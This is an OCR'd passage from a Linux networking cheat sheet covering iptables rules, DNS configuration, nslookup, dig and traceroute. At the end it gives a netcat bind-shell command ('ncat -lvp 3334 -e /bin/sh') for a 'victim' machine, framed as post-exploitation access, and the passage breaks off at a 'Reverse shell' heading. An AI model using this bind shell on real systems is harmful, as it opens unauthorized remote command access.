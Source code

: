 ```bash
$ sudo iptables -A INPUT -p tcp -m multiport --dports 80,443 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
$ sudo iptables -A OUTPUT -p tcp -m multiport --dports 80,443 -m conntrack --ctstate ESTABLISHED -j ACCEPT
```
### DNS

```bash
# modify host file
$ echo "xxx.xxx.xxx.xx server-name" >> /etc/hosts
# view dns server settings
$ cat /etc/resolv.conf
# set up dns
$ echo "nameserver xxx.xxx.xxx.xxx" >> /etc/resolv.conf
$ echo "nameserver 8.8.8.8" >> /etc/resolv.conf
```
#### DNS debug
nslookup
```bash
$ nslookup www.google.com
# nslookup using a specific name server
$ nslookup example.com ns1.nsexample.com
# nslookup using type
$ nslookup -type=soa example.com
```
dig
```
$ dig www.google.com
$ dig www.google.com A 		# IPv4
$ dig www.google.com AAAA 	# IPv6
$ dig www.google.com NS		# Name Server
$ dig @8.8.8.8 www.google.com	# Use a specific DNS server
$ dig -x 8.8.8.8		# Reverse lookup
```
traceroute 

Prints the n/w hop taken to resolve the dns. It figures it out by sending packets with incremental TTL
```
$ traceroute www.google.com
```
netcat
Bind shell

When you can exploit any port of the victom machine
```bash
# On the target, run ncat as server
$ ncat -lvp 3334 -e /bin/sh
# On the attack machine
$ ncat <ip_address> <port> 
```
Reverse shell
